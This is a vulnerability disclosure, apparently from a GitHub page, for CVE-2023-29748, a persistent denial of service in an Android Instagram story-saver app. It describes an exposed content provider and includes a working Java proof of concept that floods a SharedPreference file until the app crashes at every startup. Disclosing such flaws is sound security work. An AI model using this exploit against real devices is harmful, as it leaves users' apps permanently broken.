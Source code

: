 ## Denial of Service exists in Story Saver for Instragram - Video Downloader（CVE-2023-29748）

Vendor：Nihan Bayrak(https://www.instagram.com/nihans_macrame/)

Affected product：Story Saver for Instragram - Video Downloader(story.saver.downloader.photo.video.repost.byrk)

Version：1.0.6

Download link：https://apksos.com/app/story.saver.downloader.photo.video.repost.byrk

Description of the vulnerability for use in the CVE：Story Saver for Instragram - Video Downloader 1.0.6 for Android has an exposed component that provides a method to modify the SharedPreference file. An attacker can leverage this method to inject a large amount of data into any SharedPreference file, which will be loaded into memory when the application is opened. When an attacker injects too much data, the application will trigger an OOM error and crash at startup, resulting in a persistent denial of service.



poc：

```java
public void attack(){
    ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
    String randomString =getRandomString(512);
    Uri uri = Uri.parse("content://story.saver.downloader.photo.video.repost.byrk.TTMultiProvider/t_sp/contain/" + "total_memory" + "?sp_file_name=tt_sdk_settings");
    while (true) {
        ContentValues contentValues = new ContentValues();
        contentValues.put(randomString,randomString);
        contentValues.put("value",randomString);
        Uri a=contentResolver.insert(uri,contentValues);
    }
}
```



